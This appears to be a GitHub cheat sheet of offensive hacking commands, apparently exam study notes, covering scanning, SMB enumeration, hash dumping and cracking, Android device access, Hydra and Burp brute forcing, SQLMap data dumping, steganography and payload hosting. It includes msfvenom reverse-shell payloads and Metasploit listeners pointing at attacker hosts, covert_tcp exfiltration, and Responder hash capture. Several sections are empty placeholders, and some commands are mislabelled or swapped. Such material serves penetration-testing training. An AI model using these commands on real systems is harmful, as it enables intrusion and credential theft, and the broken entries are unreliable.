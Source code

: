 # Network Hacking

<details>
<summary>Nmap</summary>

## Nmap

* Scan for a live host

```console
nmap -sP <TARGET>
nmap -sn <TARGET>
```

* Scan for open ports

```console
nmap -p --open <port> <TARGET>
```

* OS Detection

```console
nmap -p --open <port> <TARGET>
```

* Comprehensive scan.

```console
nmap -p- --open -vv -Pn <TARGET>
```
</details>

<details>
<summary>Nmap Scripts</summary>

## Nmap Scripts

* LDAP Enumeration.

```console
nmap -p 389 --script ldap-search <TARGET>
```
</details>

<details>
<summary>NetDiscover</summary>

## NetDiscover

* Perform an ARP scan across the entire network to identify live hosts.

```console
netdiscover -i eth0
netdiscover -r <TARGET>
```
</details>

<details>
<summary>Wireshark</summary>

## Wireshark

* Wireshark offers the capability to reconstruct a stream of plain text protocol packets into a format that is easily readable by humans

```shell
select_packet > follow > TCP Stream
```

* Filter by an specific HTTP Method

```shell
http.request.method == POST
http.request.method == GET
```

* Trace a DOS/DDOS attack

```shell
# Sort by packets in IPv4 based on number of the packets transfer
Statistics > Conversations > IPv4 > Packets
```

* Detect ARP Poisoning

```shell
Open Wireshark > Edit > Preferences > Protocols > ARP/RARP > Detect ARP Request Storms > Detect duplicate IP address > Start Capture > Analyze Expert information
```

</details>

<details>
<summary>CovertTCP</summary>

## CovertTCP

CovertTCP conceals transmission of data inside the IP header.
* [Covert_TCP](Covert_TCP.c) 

This can be used to analyze .cap files. It traverses through each line in Wireshark, targeting the identification field. Keep an eye on Hex value and ANSI value. Download and compile it.

```console
# Compiling Covert_TCP.c
cc -o covert_tcp covert_tcp.c
```

Now, specify the reciever machine (Client_IP). 

```console
sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
```

Specifying the attacker machine (Attacker_IP). Create the message file that will be need to be transfered (ex. secret.txt)

```console
sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
```
The secret message is sent using Covert_TCP nad it is then captured using Wireshark.

</details>

<details>
<summary>LLMNR/NBT-NS Poisoning</summary>

## LLMNR/NBT-NS Poisoning

The tool [Responder](https://github.com/lgandx/Responder)  servers as a rogue authentication server to capture hashes. Utilizing this method, one could obtain the password of a logged-in user who is attempting to access an unavailable shared resource.

* On Unix based systems

```console
# where -I = interface
responder -I eth0
```
On Windows, you could try to access shared resources. Logs are stored at usr/share/responder/logs/SMB. You can crack the hash using John The Ripper.

```console
john SMBfilename  
```
</details>

# Enumeration

</details>

<details>
<summary>SNMP Enumeration</summary>

## SNMP Enumeration

* Performing SNMP Enumeration

```shell
# Scanning the port
nmap -sU -p 161 <TARGET_IP>

# Brute forcing SNMP
nmap -sU -p 161 --script=snmp-brute <TARGET_IP>

# Metasploit Modules
use auxiliary/scanner/snmp/snmp_login | set RHOSTS | exploit
use auxiliary/scanner/snmp/snmp_enum | set RHOSTS | exploit
```
</details>

</details>

<details>
<summary>Enum4Linux</summary>

## Enum4Linux

* Performing Linux Enumeration.

```shell
Enum4linux [options] IP
enum4linux -u username -p password -U 10.10.10.12 | - u user -p pass -U get user list
enum4linux -u username -p password -o 10.10.10.12 | -o get OS info
enum4linux -u username -p password -P 10.10.10.12 | -P get password policy info
enum4linux -u username -p password -G 10.10.10.12 | -G get groups and members info
enum4linux -u username -p password -S 10.10.10.12 | -S get share list info
enum4linux -u username -p password -a 10.10.10.12 | -a get all simple enumeration data [-U -S -G -P -r -o -n -i]
```
</details>

# System Hacking

</details>

<details>
<summary>MSFVenom</summary>

## MSFVenom

* Creating a payload

```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe
```

* Creating a reverse connection

```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST = attacker-IP  
set LPORT = attacker-Port 
run
```

</details>

<details>
<summary>Dumping SAM Hashes</summary>

## Dumping SAM Hashes

* Windows stores passwords in LM and NTLM hash formats. You need admin level access to dump them.

```powershell
wmic useraccount get name,sid
```

* You can use Pwdump7 to dump the password hashes.

```powershell
# dumps a protected file
pwdump7.exe -d C:\lockedfile.dat backup-lockedfile.dat

# show password hashes
pwdump.exe

# export hashes to the path defined
Pwdump7.exe > C:\hashes.txt
```

</details>

<details>
<summary>OPHCrack</summary>

## OPHCrack

* Cracks passwords no longer than 14 characters using only alphanumeric characters.

```shell
Open x86 GUI Version > Load PWDUMP > Select the hashes.txt file > Vista Free > Install it where OPHCrack files are placed
```
</details>

<details>
<summary>Winrtgen</summary>

## Winrtgen

* Creates Rainbow Tables.

```shell
Add Table > Hash NTLM > Min Length 4 > Max Length 6 > Chain Count 4000000 > CharSet LowerAlpha > Click Ok to start > Table is saved in Winrtgen folder
```
</details>

<details>
<summary>Rainbow Crack</summary>

## Rainbow Crack

* Cracking NTLM Hashes.

```shell
Open rcrack_gui.exe > File > Load NTLM Hashes from PWDUMP > Open Hashes.txt
Rainbow Table > Select Rainbow Table > Select Table created by Winrtgen > Crack
```
</details>

<details>
<summary>L0phtCrack</summary>

## L0phtCrack

* Add a brief description.

```console
# And some code
whoami
```
</details>

# Android Hacking

<details>
<summary>Phonesploit</summary>

## Phonesploit

* Installing Phonesploit.

```shell
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama

# Alternative
python3 -m pip install colorama
```

* Running Phonesploit.

```shell
python3 phonesploit.py
```

* To establish a connection with a new phone, choose option 3 and press Enter. Alternatively, you can enter the IP of the Android device.
* Then choose option 4 to access shell on the phone
* Download desired files using option 9

```shell
sdcard/Download/secret.txt
```

</details>

<details>
<summary>ADB</summary>

## ADB

* Installing ADB

```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```

* Establishing a connection

```console
adb connect IP_ADDRESS:5555
adb devices -l
adb shell  
```

* Navigation

```console
pwd
ls
cd Download
ls
cd sdcard
```

* Download a file from an Android device using ADB

```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

</details>

# Password Cracking

<details>
<summary>WPScan</summary>

## WPScan

```shell
# Performs only user enumeration
wpscan --url http://example.com/ --enumerate u
```
</details>

<details>
<summary>Hydra</summary>

## Hydra

### SSH 

```shell
hydra -l username -P passwords.txt target ssh
```

### FTP

```shell
# If the service isn't running on the default port, use -s
hydra -l username -P passwords.txt ftp://target -s 221

# Use Get COMMAND to download a file
get file.txt .
```

### Telnet

```shell
hydra -l admin -P passwords.txt -o test.txt target telnet
```

</details>

# Web Hacking

<details>
<summary>NSLookup</summary>

## NSLookup

You can use NSLookup to find the IP Address of a website.

```console
nslookup www.example.com
```
</details>

<details>
<summary>WordPress</summary>

## WordPress

* List WordPress users using the public default REST API.

```consoole
https://wordpress-site.com/wp-json/wp/v2/users/
```
</details>

<details>
<summary>Banner Grabbing</summary>

## Telnet

```console
telnet www.moviescope.com 80

# Double enter
GET / HTTP/1.0
```

## whatweb

```console
# Default banner grabbing
whatweb www.example.com

# Verbose grabbing
whatweb -v www.example.com
```

## OpenSSL

You can perform banner grabbing over SSL using OpenSSL.

```console
# Install OpenSSL
sudo apt install openssl -y
openssl
s_client –host www.example.com -port 443
GET/HTTP/1.0
```

## Curl

```console
# HTTP Get request from a proxy
curl -x <proxy_IP>:8080 http://localhost/
```
</details>

<details>
<summary>Local File Inclusion</summary>

## Local File Inclusion

Create an PHP payload using msfvenom

```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attacker-port -f raw
```

Create the Reverse Shell with Metasploit

```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```

</details>

<details>
<summary>Web Spidering</summary>

## zaproxy

You can perform web spidering using zaproxy.

```shell
Automated Scan > http://www.example.com > Attack > Active Scan > Spider Tab > Alerts > Spider > Messages
```
</details>

<details>
<summary>Burpsuite</summary>

## Brute Forcing with Burpsuite

* You can perform a brute force attack using Burpsuite. 

```shell
# First, set up the Proxy.
Firefox Preferences > Proxy > Settings > Manual Proxy > 127.0.0.1 and Port 8080 > Check "Also use this proxy for FTP and HTTPS" > Ok

# Then fire up Burpsuite
Proxy > "Intercept On" > Switch to Firefox -> Go to the target website > Enter Random Credentials > Switch to Burpsuite

# Setting the payloads
Right click > Send to intruder > Intruder > Positions > Clear  > Cluster bomb under Attack type

# Username and password payload
Select the username > Add Payload > Select the Password > Add Payload

# Go to the payload tab
Payloads Tab > Payload set: 1 and type: Simple list 

# Under Payload options
Load > Select a wordlist like username.txt

# Do the same for the password
Payload set: 2 and type: Simple list > Under Payload options > Load > Select a wordlist like password.txt > Start attack
```

When finished, look at the status code of every attempt. 

</details>

<details>
<summary>SQLMap</summary>

## SQLMap

* List databases

```console
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; --dbs
```

* Alternative

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; --data="id=1&Submit=Submit" --dbs  
```

* Listing tables of a database name

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name -T target_Table --columns
```

* Listing the columns of such table

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name --tables
```

* Dump data

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name -T target_Table --dump
```

* Setting OS Shell

```console
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; ui-tabs-1=0 --os-shell
```

</details>

<details>
<summary>DLSS</summary>

## DLSS

Damn Small SQLi Scanner (DSSS) is a comprehensive tool designed for detecting SQL injection vulnerabilities. It is fully functional and capable of scanning both GET and POST parameters. Regarding optional configurations, it provides support for HTTP proxy along with HTTP header values such as User-Agent, Referer, and Cookie.

```console
python3 dsss.py -u "URL" --cookie="cookie"

# Then open the generated URL

```
</details>

# Steganography

<details>
<summary>Snow</summary>

## Snow

* Hide text

```console
snow.exe -c -p test -m "Secret Message" original.txt hide.txt
```

* Unhide text

```console
snow.exe -c -p test hide.txt
```

</details>

</details>

<details>
<summary>OpenStego</summary>

## OpenStego

Perform image steganography. To hide data, follow the next steps.

* Select text message file which you want to hide
* Select the cover file image where data is to be hidden
* Set output path and file name
* Set password if needed
* Click Hide Data

To extract data

* Open the steganography file.
* Set the output folder path
* Enter the password
* Extract Data


</details>

<details>
<summary>HashCalc</summary>

## HashCalc

* When opening the file, ensure MD5, SHA1, RIPEMD160 and CRC32 are selected. Then compare the hash after modiying the file.

</details>

<details>
<summary>CrypTool</summary>

## CrypTool

* Data encryption with CrypTool.

```shell
# Encrypting file
File > New > Enter text > Encrypt > Symmetric (Modern) > RC2 > KEY 05 -> Encrypt

# Decrypting
File > Open > Decrypt > Symmetric (Modern) > RC2 > KEY 05 > Decrypt
```
</details>

<details>
<summary>HashMyFile</summary>

## HashMyFile

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>MD5 Calculator</summary>

## MD5 Calculator

* Integrates with file explore. Right click any file and select MD5 Calculator to calculate its MD5 Hash.

```console
# And some code
whoami
```
</details>

<details>
<summary>VeraCrypt</summary>

## VeraCrypt

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>BCTextEncoded</summary>

## BCTextEncoded

* Simple GUI, enter the text and encode it using a password.

</details>

<details>
<summary>Keywords</summary>

## Keywords

* Image hidden > OpenStego
* File .hex > CrypTool
* Whitespace > Snow
* MD5 > HashCalc & MD5 Calculator
* Volume & Mount > VeraCrypt

</details>

<details>
<summary>CryptoForge</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

# Transfering Files

<details>
<summary>Apache</summary>

## Hacking Tool

* You can transfer local payloads to Windows using this way.

```shell
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
service apache2 start 
service apache2 status
```

* Then to download open a browser

```console
attacker_ip/share
```

* Windows to Linux > File System > Network > smb//Windows_IP

</details>

<details>
<summary>SimpleHTTPServer</summary>

## SimpleHTTPServer

* Starts a simple HTTP server for file sharing

```shell
python -m SimpleHTTPServer
```
</details>

## Extra Resources

<details>
<summary>Resources</summary>

## Resources

* Add a brief description.

```console
# And some code
whoami
```
</details>

